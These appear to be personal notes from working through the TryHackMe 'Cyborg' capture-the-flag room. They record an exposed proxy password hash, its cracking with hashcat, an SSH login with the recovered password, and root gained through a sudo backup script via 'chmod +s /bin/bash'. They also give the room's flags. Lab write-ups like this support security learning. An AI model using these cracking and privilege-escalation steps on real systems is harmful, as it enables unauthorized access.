 ### 18072023Tue

[TryHackMe | Cyborg](https://tryhackme.com/room/cyborgt8)

```
A box involving encrypted archives, source code analysis and more.
```

![[Pasted image 20230718075448.png]]

![[Pasted image 20230718075628.png]]

![[Pasted image 20230718091426.png]]

http://10.10.141.24/etc/squid/passwd

*music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.*

![[Pasted image 20230718080154.png]]

![[Pasted image 20230718080301.png]]

![[Pasted image 20230718080427.png]]

http://10.10.141.24/admin/

![[Pasted image 20230718080553.png]]

http://10.10.141.24/admin/archive.tar

![[Pasted image 20230718080918.png]]

https://borgbackup.readthedocs.io/

https://borgbackup.readthedocs.io/en/stable/

http://10.10.141.24/admin/admin.html

```
<h3 id="heading">Admin Shoutbox</h3>

        <pre>
            <code>
                ############################################
                ############################################
                [Yesterday at 4.32pm from Josh]
                Are we all going to watch the football game at the weekend??
                ############################################
                ############################################
                [Yesterday at 4.33pm from Adam]
                Yeah Yeah mate absolutely hope they win!
                ############################################
                ############################################
                [Yesterday at 4.35pm from Josh]
                See you there then mate!
                ############################################
                ############################################
                [Today at 5.45am from Alex]
                Ok sorry guys i think i messed something up, uhh i was playing around with the squid proxy i mentioned earlier.
                I decided to give up like i always do ahahaha sorry about that.
                I heard these proxy things are supposed to make your website secure but i barely know how to use it so im probably making it more insecure in the process.
                Might pass it over to the IT guys but in the meantime all the config files are laying about.
                And since i dont know how it works im not sure how to delete them hope they don't contain any confidential information lol.
                other than that im pretty sure my backup "music_archive" is safe just to confirm.
                ############################################
                ############################################

            
            </code>
        </pre>
```

```
cat squid.conf          
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

![[Pasted image 20230718085017.png]]

![[Pasted image 20230718085124.png]]

![[Pasted image 20230718085422.png]]

```
hashcat --force -m 1600 -a 0 /usr/share/wordlists/rockyou.txt
```

### 22072023Sat

[Cyborg Writeup(My box!) | fieldraccoon](https://fieldraccoon.github.io/posts/Cyborg/)

![[Pasted image 20230722102307.png]]

```
hashcat --force -m 1600 -a 0 /usr/share/wordlists/rockyou.txt passwd_hash
```

```
ssh alex@10.10.195.198
```

```
S3cretP@s3
```

```
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```

![[Pasted image 20230722103424.png]]

### 23072023Sun

![[Pasted image 20230723081509.png]]

![[Pasted image 20230723081929.png]]

```
sudo /etc/mp3backups/backup.sh -c whoami
```

![[Pasted image 20230723082327.png]]

```
sudo /etc/mp3backups/backup.sh -c ls /root/
```

![[Pasted image 20230723082509.png]]

```
sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"
```

```
bash -p
```

![[Pasted image 20230723083051.png]]

```
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```

